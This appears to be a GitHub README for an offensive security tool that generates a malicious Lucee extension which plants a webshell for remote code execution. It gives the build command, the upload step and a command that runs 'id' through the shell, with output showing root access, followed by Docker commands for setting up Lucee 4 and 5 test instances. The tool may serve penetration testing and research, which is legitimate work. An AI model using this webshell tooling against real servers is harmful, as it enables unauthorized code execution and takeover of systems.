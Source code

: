 
## 
### Lucee Web Shells
### Written by Juan Pablo Gomez (https://github.com/JPG0mez) and Will Vandevanter (https://github.com/BuffaloWill)
The work is originally based on research and a blog post here: [LINK]

This repository includes a python script to generate a Lucee extension that will add a webshell for remote code execution.

1. To use it run the `build` command:

```bash
python3 extension-generator.py build

Auth_code already set: lErs2CC2BdpUtHYW0miiSNncE
Generating LEX package...
webshell/package.lex created.
```

2. Upload `webshell/package.lex` into the Lucee installation. 

3. Then call the webshell with:

```bash
python3 extension-generator.py --url http://localhost:8888 --auth-code lErs2CC2BdpUtHYW0miiSNncE id

uid=0(root) gid=0(root) groups=0(root)
```

### Testing Lucee

The easiest way to test Lucee functionality is with Docker. To spin up a Lucee docker instance that matches your target,

#### Docker - Lucee 5:

Note, lucee 5 does not ship with a password. You will need to start the server with:

```
docker run --name lucee5 -p 8888:8888 --platform linux/amd64 lucee/lucee:5.3.9.141-nginx
```

After the application finishes loading, there should be a Server page at [Server Login](http://127.0.0.1:8888/lucee/admin/server.cfm) that will mention a password needing to be set. 

This can be done from the cli with:

```
docker exec lucee5 sh -c "echo 'mypassword' > /opt/lucee/server/lucee-server/context/password.txt"
```

After this click "Import File" and you should be able to login.

This blopost also has alternate information on setting the password: 

https://markdrew.io/password-for-lucee-docker

### Docker - Lucee 4 (2018):

Start the server:

```
docker run --name lucee4 -dp 8888:8080 --platform linux/amd64 lucee/lucee4:4.5.5.015
```

Browse to localhost:8888/lucee/admin/server.cfm and set the password.
